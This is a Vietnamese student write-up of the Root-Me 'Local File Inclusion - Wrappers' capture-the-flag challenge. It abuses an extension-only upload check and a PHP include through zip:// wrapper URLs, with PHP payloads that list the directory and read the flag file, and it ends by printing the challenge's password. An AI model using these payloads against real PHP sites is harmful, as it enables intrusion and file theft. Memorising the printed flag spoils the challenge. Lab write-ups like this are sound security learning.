







# Challenge: Local File Inclusion - Wrappers
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian:
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Wrappers

- Thử thách cho ta gởi file có định dạng jpg lên web, và sau đó hiển thị lên màn hình
<p align="center"></p>

- Sau khi kiểm tra thì ta thấy server không kiểm tra file chỉ kiểm tra phần mở rộng, do vậy ta có thể upload 1 file bất kỳ và thay đổi phần mở rộng là được.

- Ta thấy trang được tạo ra sau khi upload file có đường dẫn là 
>http://challenge01.root-me.org/web-serveur/ch43/index.php?page=view&id=wjIiyg5f0

- Tham số page sẽ render ra trang, ta thử một giá trị bất kì, thì ta thấy được nó được server `include([page].php)`
<p align="center"></p>

- Tham khảo `LFI / RFI using wrappers` ở đây ta sẽ dùng [Wrapper zip://](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-zip)
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers

- Thực hiện tạo file payload như bài tham khảo ta được, đường dẫn của file upload được lưu tại "tmp/upload/aAAH7zdoO.jpg"
<p align="center"></p>

- đường dẫn attack lúc này sẽ là: 
> http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://tmp/upload/aAAH7zdoO.jpg%23payload
--> page name too long

- Ta thay lại payload = a
> http://challenge01.root-me.org/web-serveur/ch43/index.php?page=zip://tmp/upload/aAAH7zdoO%252ejpg%23a
<p align="center"></p>
<p align="center"></p>

- Mặc dù có lỗi những có vẻ như chúng ta đã làm đúng hướng
- Liệt kê các các file trong thư mục hiện tại 
```
<?php $scan=scandir("."); foreach($scan as $file){echo "$file\n";} ?>
```
<p align="center"></p>
<p align="center"></p>

- Ta thấy có file `flag-mipkBswUppqwXlq9ZydO.php` ta tiến hành đọc nó:
```
<?php $data = file_get_contents("flag-mipkBswUppqwXlq9ZydO.php"); echo $data; ?>
```
<p align="center"></p>
<p align="center"></p>

## Kết quả password là `lf1-Wr4pp3r_Ph4R_pwn3d`